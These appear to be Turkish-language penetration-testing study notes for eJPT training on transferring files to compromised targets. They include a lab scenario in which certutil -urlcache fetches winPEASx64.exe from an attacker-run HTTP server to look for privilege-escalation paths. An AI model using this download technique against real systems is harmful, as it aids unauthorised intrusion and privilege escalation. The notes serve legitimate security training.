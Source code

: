 
![[Pasted image 20240416135734.png]]

---

## Transferring Files To Windows Targets - Linux Targets
#transfer 


### certutil
### wget
curl
### python3 http server
### scp  ---> Süpercopy 

---

## CERTUTIL
![[Pasted image 20240416230937.png]]
![[Pasted image 20240416231008.png]]
https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil?ranMID=46131&ranEAID=a1LgFw09t88&ranSiteID=a1LgFw09t88-UeNI9_.dI9zq_Re_gMuc2A&epi=a1LgFw09t88-UeNI9_.dI9zq_Re_gMuc2A&irgwc=1&OCID=AIDcmm549zy227_aff_7806_1243925&tduid=(ir__kb9uyevjewkfdkotg1lmopsqpn2xdhyk2wq0130p00)(7806)(1243925)(a1LgFw09t88-UeNI9_.dI9zq_Re_gMuc2A)()&irclickid=_kb9uyevjewkfdkotg1lmopsqpn2xdhyk2wq0130p00

### Biz -URLCache parametresini kullanarak dosya aktarımını yapacağız.
![[Pasted image 20240416231423.png]]
##### <span style="background:#d4b106">certutil [options] -URLcache [URL | CRL | * [delete]]</span>


### Senaryoda biz hedef sisteme ![[Pasted image 20240416234024.png]]
### kali ismiyle erişim sağladık ama yetki yükseltmek için elimde yeterli veri yok. Winpeasx64.exe den yaralanacağım. eJPT klasörümde bu var bunu python3 http server ile yayınlayacağım certutil ile karşı taraftan çekeceğim.

![[Pasted image 20240416234233.png]]
![[Pasted image 20240416234320.png]]

### certutil -urlcache -f http://10.0.2.4/winPEASx64.exe winpeas.exe
![[Pasted image 20240416234545.png]]
#winPEAS 
